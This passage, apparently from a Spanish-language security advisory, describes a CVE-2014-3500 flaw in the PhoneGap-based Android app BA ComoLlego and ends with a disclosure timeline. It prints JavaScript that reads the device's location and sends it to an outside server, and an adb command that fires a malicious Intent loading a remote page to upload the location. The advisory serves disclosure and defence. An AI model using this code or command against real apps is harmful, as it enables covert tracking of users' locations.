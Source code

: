 Así, inyectando el siguiente código en el pedido a la librería, se podría acceder a la ubicación del cliente cada vez que intente utilizar la aplicación. 

```
function onSuccess(position) {

        var request = new XMLHttpRequest();
        request.open("GET", "http://www.fundacionsadosky.org.ar/?lat="+position.coords.latitude+"&long="+position.coords.longitude, true);
        request.send();

    }

// onError Callback receives a PositionError object
//
function onError(error) {
    console.log('code: '    + error.code    + '\n' +
          'message: ' + error.message + '\n');
}

var watchID = navigator.geolocation.getCurrentPosition(onSuccess, onError, { timeout: 300000,enableHighAccuracy: true,maximumAge: 300000 });


```

BA ComoLLego utiliza la versión de PhoneGap 2.3.0 que es vulnerable a CVE-2014-3500 [3] permitiendole a otras aplicaciones cambiar la página de inicio de la aplicación por una con contenido malicioso a través de un Intent que lleve un parámetro extra con referencia al contenido bajo la clave _url_. 
  
La correcta configuración del framework podría llegar a bloquear dicho ataque cuando se restringen los dominios a los cuales la aplicación se puede conectar a través del archivo de configuración _res/xml/config.xml_. Sin embargo, BA ComoLlego permite a la aplicación acceder a cualquier dominio dado a que para filtrar los accesos utiliza un comodín.
  
Como prueba de concepto que la aplicación es vulnerable a CVE-2014-3500 se puede enviar el siguiente comando a través de adb (Android Debug Bridge) que simularía ser una aplicación que envía un Intent malicioso que inyecta Javascript utilizando el módulo _Geolocation_[4] logrando que una aplicación sin permiso pueda subir remotamente la ubicación del dispositivo a un servidor remoto.


```
 adb shell am start -n ar.gob.buenosaires.comollego/.comollego --es url "https://googledrive.com/host/0B0f57xoYl_BFOG5FMEhpc3AzckU/upload_geo.html"
```


## 8. Cronología del reporte

* **2014-02-11:** 
          Se envió mail solicitando contacto para reportar problemas de seguridad en aplicaciones móviles
        
* **2014-02-18:** 
          Se recibió respuesta del GCBA requiriendo información para reneviarsela a quien corresponda
        
* **2014-02-18:** 
          Se envió un descripción técnica del problema.
        
